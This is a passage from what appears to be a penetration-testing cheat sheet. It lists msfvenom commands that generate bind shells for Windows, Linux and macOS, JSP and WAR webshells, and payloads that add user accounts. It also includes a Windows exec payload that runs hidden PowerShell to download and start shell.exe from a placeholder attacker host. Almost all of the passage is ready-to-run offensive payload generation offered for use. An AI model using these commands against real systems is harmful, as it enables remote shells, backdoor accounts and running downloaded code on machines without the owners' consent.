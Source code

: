 `$ msfvenom -p cmd/windows/powershell_bind_tcp lport=<PORT> -o shell.ps1`

`$ msfvenom -p windows/powershell_bind_tcp lport=<PORT> -o shell.ps1`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell_bind_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/powershell_bind_tcp lport=<PORT> -o shell-x86-64.ps1`

##### 2.5.2.6 - Stageless Linux Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell_bind_tcp lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell_bind_tcp lport=<PORT> -f elf -o shell-x86-64`

##### 2.5.2.7 - Stageless Mac OSX Bind Shells

`$ msfvenom -p osx/x86/shell_bind_tcp lport=<PORT> -f macho -o shell_x86`

`$ msfvenom -p osx/x64/shell_bind_tcp lport=<PORT> -f macho -o shell_x64`

##### 2.5.2.8 - Stageless Bind Webshells

1. **JSP**

`$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o shell.jsp`

2. **War**

`$ msfvenom -p java/jsp_shell_bind_tcp lport=<PORT> -f raw -o shell.war`

#### 2.5.3 - Exec Payloads

##### 2.5.3.1 - Add User Windows Exec Payload

`$ msfvenom -p windows/adduser user=<username> pass=Password1234! wmic=false custom=<group_name>`

##### 2.5.3.2 - Add User Linux Exec Payload

`$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf`

##### 2.5.3.3 - DNS TXT Query Exec Windows Payload

`$ msfvenom -p windows/dns_txt_query_exec dnszone=<domain.com> -f exe -o dns-query-x86.exe`

##### 2.5.3.4 - Execute Windows Exec Payload

`$ msfvenom -p windows/exec cmd=<commands> -f exe -o exec-x86.exe`

`$ msfvenom -p windows/x64/exec cmd=<commands> -f exe -o exec-x64.exe`

`$ msfvenom -p windows/x64/exec cmd="powershell.exe -w hidden -noni -nop -c \"IEX (new-object net.webclient).downloadfile('http://<IP>:<PORT>/shell.exe', 'C:\Windows\Temp\shell.exe');start-process C:\Windows\Temp\shell.exe\"" -f exe -o exec-x64.exe`

##### 2.5.3.5 - Execute Linux Exec Payload
